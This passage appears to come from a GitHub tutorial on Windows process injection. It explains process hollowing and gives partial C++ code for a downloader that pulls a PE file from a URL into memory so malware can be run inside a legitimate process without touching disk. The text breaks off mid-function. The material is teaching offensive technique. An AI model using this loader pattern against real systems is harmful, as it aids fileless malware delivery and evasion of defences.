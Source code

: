 
### Process Hollowing

Process hollowing follows a similar philosophy as what we have previously seen. Instead of mapping an executable into a remote process that is already RUNNING, the attacker CREATES a process in a suspended state, deletes its content, writes the malicious content into it, sets the entry point to the malicious code's entry point and resumes the execution from there. It basically creates a process, "hollows it" and then substitutes its content by of the malware, again forcing a legitimate process to run evil code. Usually you'll see a malware abusing processes such as svchost.exe, explorer.exe and the like...


#### Get file byes from URL

So one of the strategies used by common malware when implementing process hollowing or more elaborated but similar techniques is to drop the initial stage of the malware on the system as an simpler program that will get the real malware from some url, for example load it in memory (ram) and then implement process hollowing writting and running the retrieved malware directly into a legitimate process withouth having that malicious code touching disk. 

[The full code for the following example can be found here](https://github.com/artikblue/process-injection/blob/main/Source/Process%20Hollowing/Process_Hollowing.cpp)

This can be tested locally by using python to implement a simple web server:
```
python3 -m http.server 8080
```

An example of a function getting those PE bytes from an url can be found here:
```
LVOID GetFileContentFromUrl(const LPSTR fileUrl)
{
    //Download from http://127.0.0.1:8080/msgbox.exe
    HINTERNET hInternetSession;
    HINTERNET hURL;
    int fSize = 0;

    DWORD dwBytesRead=0;
    DWORD lpOutBuffer=0;
    DWORD dwSize=sizeof(lpOutBuffer);
    //char *PE_buffer;
    LPVOID PE_buffer;
    // Make internet connection.
    hInternetSession = InternetOpenA(
        "Mozilla 1.2.3", // agent
        INTERNET_OPEN_TYPE_PRECONFIG,  // access
        NULL, NULL, 0);                // defaults

    // Make connection to desired page.
    hURL = InternetOpenUrl(
        hInternetSession,                       // session handle
        fileUrl,                                // URL to access
        NULL, 0, 0, 0);                         // defaults

    // If connection to the file is successfully opened we go check for the file size
    if(hURL>0){
        fSize = (int)HttpQueryInfoA(hURL,HTTP_QUERY_CONTENT_LENGTH | HTTP_QUERY_FLAG_NUMBER, &lpOutBuffer,&dwSize,NULL);
        printf("[+] File size: %d \n",  lpOutBuffer);
        //PE_buffer = (char *) malloc(lpOutBuffer+1);
        PE_buffer = VirtualAlloc(NULL, lpOutBuffer,  MEM_COMMIT, PAGE_READWRITE);
        if(PE_buffer==nullptr){
            printf("[-] Error allocating buffer for remote file: %d \n", GetLastError());
            exit(1);
        }
        else{
            if(InternetReadFile(hURL, PE_buffer, lpOutBuffer, &dwBytesRead)){
```